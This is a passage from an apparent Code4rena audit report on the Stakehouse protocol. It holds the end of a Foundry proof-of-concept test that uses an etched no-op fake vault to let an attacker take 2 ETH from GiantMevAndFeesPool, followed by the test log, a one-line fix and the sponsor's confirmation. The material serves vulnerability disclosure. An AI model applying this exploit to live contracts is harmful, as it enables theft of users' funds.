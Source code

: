             LPToken[][] memory allTokens = new LPToken[][](1);
            allTokens[0] = tokens;
            giantFeesAndMevPool.bringUnusedETHBackIntoGiantPool(
                getAddressArrayFromValues(address(manager.stakingFundsVault())),
                allTokens,
                stakeAmountsForVaults
            );
            // inject a NOOP to skip some functions
            address[] memory stakingFundsVaults = new address[](1);
            bytes memory code = new bytes(1);
            code[0] = 0x00;
            vm.etch(address(0x123), code);
            stakingFundsVaults[0] = address(0x123);
            giantFeesAndMevPool.claimRewards(feesAndMevUserTwo, stakingFundsVaults, blsKeysForVaults);
            vm.stopPrank();
            console.log("user one:", getBalance(feesAndMevUserOne));
            console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
            console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
        }

        function getBalance(address addr) internal returns (uint){
            // giant LP : eth at ratio of 1:1
            return addr.balance + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
        }

    }

run test:

    forge test --match-test testDWclaimRewards -vvv

test log:

    Logs:
      user one: 4000000000000000000
      user two(attacker): 6000000000000000000
      giantFeesAndMevPool: 6000000000000000000

The attacker stole 2 eth from the pool.

### Tools Used

foundry

### Recommended Mitigation Steps

Add

    idleETH += _amounts[i];

before burnLPTokensForETH in the GiantMevAndFeesPool.bringUnusedETHBackIntoGiantPool function.

**[vince0656 (Stakehouse) confirmed](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/173)**


